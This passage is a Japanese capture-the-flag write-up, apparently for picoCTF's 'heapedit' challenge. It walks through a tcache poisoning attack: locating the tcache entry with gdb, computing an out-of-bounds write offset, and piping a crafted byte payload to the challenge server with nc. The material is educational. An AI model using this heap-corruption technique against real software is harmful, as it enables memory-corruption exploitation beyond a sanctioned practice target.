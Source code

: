 というわけで、以下のステップでFlagを取得していきます。

1. `tcache->entries[tc_idx]`のアドレスを取得する
2. `tcache->entries[tc_idx]->next`のアドレスを特定する
3. `tcache->entries[tc_idx]`のアドレスを`tcache->entries[tc_idx]->next`に書き換える

まずは`tcache->entries[tc_idx]`のアドレスですが、PIEが無効化されているので、これは最後のmalloc()の戻り値のアドレスから変化しないことが想定されます。

そのため、gdb-pedaを使って最終的にmallocがtcacheから取得するチャンクのアドレスである0x603890を探索します。

すると、0x602088が(たぶん)tcache->entriesのアドレスであり、0x603800がFlagの格納されたチャンクであるとわかります。

``` bash
$ searchmem 0x603890
Searching for '0x603890' in: None ranges
Found 3 results, display max 3 items:
 [heap] : 0x602088 --> 0x603890 --> 0x603800 --> 0x0 
[stack] : 0x7fffffffda30 --> 0x603890 --> 0x603800 --> 0x0 
[stack] : 0x7fffffffde10 --> 0x603890 --> 0x603800 --> 0x0
```

実際、0x603800にFlagが格納されていることが確認できます。

``` bash
$ x/s 0x603800+0x8
0x603808:       "! Your flag is: picoCTF{testflag}\n"
```

ここから、書き換えたいアドレスは0x602088であり、このアドレスの値を0x603800に変えることで最終的にFlagを取得できそうです。

アドレスの書き換えは以下から行います。

``` c
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&DAT_00400b48,&local_a8);
  printf("Value: ");
  __isoc99_scanf(&DAT_00400b53,&local_a9);
  *(undefined *)((long)local_a8 + (long)local_a0) = local_a9;
```

`local_a0`には0x6034a0が入っていますので、`0x602088-0x6034a0 = -5144`を入れることで0x602088の改ざんが可能になります。

というわけで、1つ目の入力に-5144、2つ目の入力に`\x00\x38\x60\x00`を与えてあげることで、tcacheの改ざんを行ってFlagを取得できます。

``` bash
$ python -c 'import sys; sys.stdout.buffer.write(b"-5144\n" + b"\x00\x38\x60\x00")' > input

$ ./heapedit_patched < input 
You may edit one byte in the program.
Address: Value: lag is: picoCTF{testflag}
```

最後に、リモートサーバーに対してこの入力を送り込むことでFlagを取得できました。

``` bash
$ nc mercury.picoctf.net 17612 < input 
You may edit one byte in the program.
Address: Value: lag is: picoCTF{ XXXXXXXXXXXXXXXXXXXX }
```
